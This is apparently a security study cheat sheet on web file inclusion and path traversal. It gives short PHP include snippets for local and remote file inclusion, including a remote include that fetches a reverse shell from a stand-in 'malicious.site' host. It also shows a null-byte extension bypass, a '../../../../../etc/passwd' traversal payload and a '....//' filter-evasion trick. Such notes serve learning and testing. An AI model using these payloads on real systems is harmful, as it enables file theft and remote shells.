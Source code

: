 # Files/Paths exploits

<hr class="sl">

## File inclusion

<div class="row row-cols-md-2"><div>

Files inclusion refer to websites that are importing <small>(`import/require` in PHP)</small> a file using the user input. For instance: `http://malicious.site/?lang=FR` that is doing a include using `$_GET["lang"]`.

In the following include with no filtering, we may enter a path 

```php
include "lang/$_GET[lang].php"
```

**PHP < 5.3.4**: if the programmer appended an extension, such as `.php`, but you want to bypass it, you can use the **Null Byte** `%00` which indicates the end of a string.

```php
include "xxx.elf%00.php" // include xxx.elf
```

</div><div>

**Local File Inclusion (LFI)** 🏠: inject a local file

```php
// you uploaded a reverse shell (avatar.png)
// as your avatar
include "../uploads/avatar.png.php"
```

See Path traversal.

**Remote File Inclusion (RFI)** ✈️: inject a remote file

```php
// allow_url_fopen MUST BE SET TO true
include "http://malicious.site/reverse_shell.php"
```
</div></div>

<hr class="sr">

## Path/directory traversal

<div class="row row-cols-md-2"><div>

This is an attack where a hacker will manage to access files/folders that were not supposed to be available for users by exploiting the application. 

In PHP for instance, developers may be use `file_get_contents(URL)` to download an avatar for instance given a URL. The problem is that this kind of function may be used to access a local file. If the file is displayed, or stored somewhere where you can read it such as in `/uploads`, then you may be able to 

* test if a port is open
* access private files such as `/etc/passwd`/`windows/win.ini`
* ...

For instance, a URL such as `http://example.com/image-preview.php?url=...` that is supposed to display an image given a URL, may be vulnerable to path traversal.
</div><div>

You can use the **dot-dot-slash attack**, and give an URL such as `../../../../../etc/passwd`. Note that `/../` is `/`, so if you add more `../` than needed, it's OK.


**Bypass filters**: if you know that a filter will replace a string, then you may create a string that will do what you want AFTER being filtered, such as `....//`. If the filter is removing `../`, then after filtering `..` and `/` will be concatenated, giving us back `../`.
</div></div>